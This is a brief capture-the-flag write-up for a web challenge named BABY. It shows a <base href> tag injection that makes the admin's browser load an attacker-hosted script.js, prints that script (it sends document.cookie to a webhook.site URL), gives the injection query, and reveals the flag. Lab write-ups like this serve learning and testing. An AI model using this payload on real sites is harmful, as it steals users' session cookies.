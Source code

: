 ```yaml
---
layout: default
title: BABY
---
```


# webhacking BABY Solution

Here we can inject tag, we can inject this:
`<base href="ourDomain.com">`

Then, the admin will go there.
I just put `script.js` on my github pages, this is the `script.js` file:
```
window.location.href = "https://webhook.site/b9845d0e-4624-4ee7-89c9-90bfd2b1d3eb/?cookies="+document.cookie;
```

And then, just give this payload to the admin:
```
?inject=<base href="https://avishaigonen123.github.io/">
```


![win picutre](./images/BABY.png)


**Flag:** ***`FLAG{base_is_basic}`*** 
